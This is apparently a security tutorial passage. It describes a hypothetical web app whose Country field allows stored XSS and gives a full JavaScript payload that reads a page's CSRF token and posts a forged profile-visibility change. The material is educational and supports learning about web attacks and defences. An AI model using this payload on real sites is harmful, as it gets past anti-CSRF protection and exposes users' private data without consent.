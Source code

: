 Imagine a web application that has a mini-profile feature, which shows a user's name, email, and country. It also has a "Change Visibility" functionality, that allows a user to make their profile public or private.

Additional facts about the application:
- The application features same origin/same site protections as anti-CSRF measures (through a server configuration)
- The application's _Country_ field is vulnerable to stored XSS attacks.

For this scenario, we will target the Change Visibility functionality, because a successful CSRF attack would cause the disclosure of a private profile.

We will use the following payload and insert it in the Country field:
```javascript
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/app/change-visibility',true);
req.send();
function handleResponse(d) {
    var token = this.responseText.match(/name="csrf" type="hidden" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/app/change-visibility', true);
    changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    changeReq.send('csrf='+token+'&action=change');
};
</script>
```
